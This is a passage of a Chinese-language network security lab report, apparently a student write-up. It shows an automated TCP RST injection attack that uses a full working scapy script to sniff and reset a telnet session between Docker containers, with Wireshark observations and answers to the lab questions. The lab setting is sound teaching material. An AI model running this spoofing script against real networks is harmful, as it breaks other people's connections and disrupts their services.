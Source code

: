 - 观察和解释：你的攻击是否成功？你怎么知道它是否成功？你期待看到什么？你观察到了什么？观察结果是你预想的那样吗？

  - 攻击成功；
  - 用户机的`telnet`连接断开且`Wireshark`拦截到相应报文；
  - 期待看到用户机的`telnet`连接断开且`Wireshark`拦截到相应报文；
  - 观察到了用户机的`telnet`连接断开且`Wireshark`拦截到相应报文；
  - 是。

## 2.5 利用`scapy`自动攻击

- 该攻击过程中的`Wireshark`数据见`2.3.利用scapy自动攻击.pcapng`

- 模仿`2.4 利用scapy手动攻击`中的手动操作过程，此次向用户机发送`RST`报文，只需监听用户机向服务机的`telnet`端口发送的报文，将该报文中的四元组中的源与目的分别交换，且取该报文的`Ack`作为攻击报文的`Seq`，即可构造自动攻击程序如下，在参考程序的基础上添加监听的网卡`iface="docker0"`并填充了标注区域内的报文构造过程

  ```python
  #!/usr/bin/python3
  from scapy.all import *
  
  SRC  = "172.17.0.2"
  DST  = "172.17.0.3"
  PORT = 23
  
  def spoof(pkt):
      old_tcp = pkt[TCP]
      old_ip = pkt[IP]
  
      #############################################
      ip = IP(src = old_ip.dst, dst = old_ip.src)
      tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack, flags = "R") 
      #############################################
  
      pkt = ip/tcp
      send(pkt,verbose=0)
      print("Spoofed Packet: {} --> {}".format(ip.src, ip.dst))
  
  f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
  sniff(filter=f, prn=spoof, iface="docker0")
  ```

- 首先使用户机使用`telnet`连接服务机，然后攻击机使用`reset_auto.py`进行攻击：`sudo python3 ./reset_auto.py`，之后在用户机的`telnet`中输入任意字符，可以发现连接断开，攻击成功
  ![2.5.1.首先使用户机使用telnet连接服务机，然后攻击机使用reset_auto.py进行攻击，之后在用户机的telnet中输入任意字符，可以发现连接断开，攻击成功](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112053616.png)

- `scapy`发送的`RST`报文如下（注：编号`62`的报文对应编号`57`的报文，编号`63`的报文对应编号`59`的报文，服务机没有发送`RST ACK`报文）
  ![2.5.2.使用Wireshark截取报文，可以看到scapy发送的RST报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204132031831.png)
  ![2.5.3.使用Wireshark截取报文，可以看到scapy发送的RST报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204132031061.png)
  
- 观察和解释：你的攻击是否成功？你怎么知道它是否成功？你期待看到什么？你观察到了什么？观察结果是你预想的那样吗？

  - 攻击成功；
  - 用户机的`telnet`连接断开且`Wireshark`拦截到相应报文；
  - 期待看到用户机的`telnet`连接断开且`Wireshark`拦截到相应报文；
  - 观察到了用户机的`telnet`连接断开且`Wireshark`拦截到相应报文；
  - 是。
